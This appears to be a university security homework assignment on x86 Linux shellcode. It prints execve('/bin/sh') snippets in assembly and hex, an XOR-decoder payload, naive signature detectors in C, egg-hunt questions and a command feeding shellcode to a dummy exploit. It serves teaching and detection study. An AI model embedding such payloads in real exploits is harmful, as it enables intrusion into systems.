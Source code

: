 Instructions
============

-   You must submit your homework using this Latex template.

-   This homework is graded out of 130 points. Point values are
    associated to each question.

Questions
=========

1.  Consider the following shell code as an improvement over previously
    described jmp-callback shell code

        SECTION .text
           global _start

        _start:

           xor eax,eax

           push eax ;\0
           push 0x68 ;h
           push 0x73 ;s
           push 0x2f ;/
           push 0x6e ;n
           push 0x69 ;i
           push 0x62 ;b
           push 0x2f ;/

           mov esi,esp

           xor edx,edx
           push edx
           push esi

           mov ecx,esp
           mov ebx,esi
           mov al,0xb
           int 0x80

    1.  (5 points) This shell code fails to decrease the total number of
        bytes. Explain why? (You can compile and test against a
        jmp-callback variant)

    2.  (5 points) This shell code *also* fails to launch a shell.
        Explain why?

    3.  (5 points) Explain how to fix this shell code’s push’es such
        that it will actually launch a shell.

    4.  (5 points) When fixed, how many bytes is the shell code reduced
        by as compared to the jmp-callback shell code?

2.  Consider the following shell code

        SECTION .text
                global _start
        _start:
                xor ecx,ecx
                mul ecx ;MARK 1

                push eax
                push 0x68732f6e
                push 0x69622f2f

                mov ebx,esp ;MARK 2
                mov al,0xb
                int 0x80 

    1.  (5 points) At MARK 1, explain why `mul ecx` will zero out the
        register `eax` and `edx`.

    2.  (5 points) At MARK 2, how come we are not creating an argv array
        for execve? What areguments are we passing instead?

    3.  (5 points) How many bytes is this shell code?

3.  Consider the following shell code.

        SECTION .text
                global _start:

        _start:
                cltrd
                push 0xb
                pop eax
                push a
                pop ecx
                int 0x80

    1.  (5 points) Provide an english-language description of the
        process of this shell code

    2.  (5 points) Will this shell code work consistantly?

    3.  (5 points) How would you use this shell code to launch a shell?

    4.  (5 points) How many bytes is this shell code?

4.  (10 points) Go to the shell code repository on shell-storm

    <http://shell-storm.org/shellcode/>

    Choose a shell code from the Intel x86 header, compile and run that
    shell code, and describe it’s properties and something interesting
    you learned from it. Be sure to include the code.

5.  Consider the simple signature matching instrusion detection scheme:

        int sig_check(char * p){
          for(;*p;p++)
            if (strncmp(p,"sh",2) == 0){
              return 1;
          return 0;
        }

    1.  (5 points) Will the shell code below be detected by the
        signature scheme, yes or no and **Explain**.

            8048060: 31 c9            xor ecx,ecx
            8048062: f7 e1            mul ecx
            8048064: 50               push eax
            8048065: 68 6e 2f 73 68   push 0x68732f6e
            804806a: 68 2f 2f 62 69   push 0x69622f2f
            804806f: 89 e3            mov ebx,esp
            8048071: b0 0b            mov al,0xb
            8048073: cd 80            int 0x80

    2.  (5 points) Will the shell code below be detected by the
        signature scheme, yes or no and **Explain**.

            8048060: 31 c9             xor ecx,ecx
            8048062: f7 e1             mul ecx
            8048064: 6a 68             push 0x68
            8048066: 68 6e 2f 2f 73    push 0x732f2f6e
            804806b: 68 2f 2f 62 69    push 0x69622f2f
            8048070: 89 e3             mov ebx,esp
            8048072: b0 0b             mov al,0xb
            8048074: cd 80             int 0x80

6.  Consider this signature matching scheme below:

        int sig_check(char *str, char * sig0, char *sig1){
          char *p;
          for(p=str;*p;p++){
            if ( strncmp(p,sig0,strlen(sig0)) == 0 )
              if (strncmp(p+strlen(sig0),sig1,strlen(sig1)) == 0)
                return 1;
            return 0;
          }
        }

    1.  (5 points) Provide a signatures (i.e., arugments to
        sig**<sub>check</sub> above) that will match both shell codes
        (from the previous questions) use of the excve system call.

    2.  (5 points) Consider the following change to the shell code
        below, does your previous signature still work? If so, explain
        why, if not, explain why not.

            8048060: 31 c9             xor ecx,ecx
            8048062: f7 e1             mul ecx
            8048064: 6a 68             push 0x68
            8048066: 68 6e 2f 2f 73    push 0x732f2f6e
            804806b: 68 2f 2f 62 69    push 0x69622f2f
            8048070: b1 0b             mov cl,0xb
            8048072: 89 e3             mov ebx,esp
            8048074: 40                inc eax
            8048075: e2 fd             loop 8048074 <_start+0x14>
            8048077: cd 80             int 0x80

7.  (5 points) Does the shell code below match either (or both) of the
    signature schemes from the previous questions?

        8048060: 68 80 90 90 90  push 0x90909080
        8048065: 68 e3 b0 0b cd  push 0xcd0bb0e3
        804806a: 68 2f 62 69 89  push 0x8969622f
        804806f: 68 73 68 68 2f  push 0x2f686873
        8048074: 68 50 68 6e 2f  push 0x2f6e6850
        8048079: 68 31 c9 f7 e1  push 0xe1f7c931
        804807e: ff d4           call esp

8.  (5 points) What is polymorphic shell code? How does it relate to the
    shortcomins of the signature matching scheme from before?

9.  (5 points) What is decode shell code? Would decoder shell code be
    immune from signature matching schemes?

10. Consider the following decode based shell code

        8048060: 68 6f 2e 3d 4e     push 0x4e3d2e6f
        8048065: 68 0c 0e a6 13     push 0x13a60e0c
        804806a: 68 c0 dc c4 57     push 0x57c4dcc0
        804806f: 68 9c d6 c5 f1     push 0xf1c5d69c
        8048074: 68 be d6 c3 f1     push 0xf1c3d6be
        8048079: 68 de 77 5a 3f     push 0x3f5a77de
        804807e: 31 c9              xor ecx,ecx
        8048080: 8b 04 0c           mov eax,DWORD PTR [esp+ecx*1]
        8048083: 35 ef be ad de     xor eax,0xdeadbeef
        8048088: 89 04 0c           mov DWORD PTR [esp+ecx*1],eax
        804808b: 80 c1 04           add cl,0x4
        804808e: 80 f9 14           cmp cl,0x14
        8048091: 7e ed              jle 8048080 <_start+0x20>
        8048093: ff e4              jmp esp

    1.  (5 points) What is the decode key? Explain how you know this.

    2.  (5 points) Why is the comparison (`cmp`) comapring to 0x14 for
        loop exit?

    3.  (5 points) Explain the last instruction’s relevance `jmp esp`.

11. (5 points) In egg-hunt shell code, why should the egg appear twice?

12. (5 points) Why do we use `access()` system call in egghunt shell
    code?

13. (5 points) In the example below, why does the shell code being
    hunted for get loaded into memory?

        ./dummy_exploit $(printf $(./hexify.sh egg_hunt)) $(printf $(./hexify.sh huntable_shell))



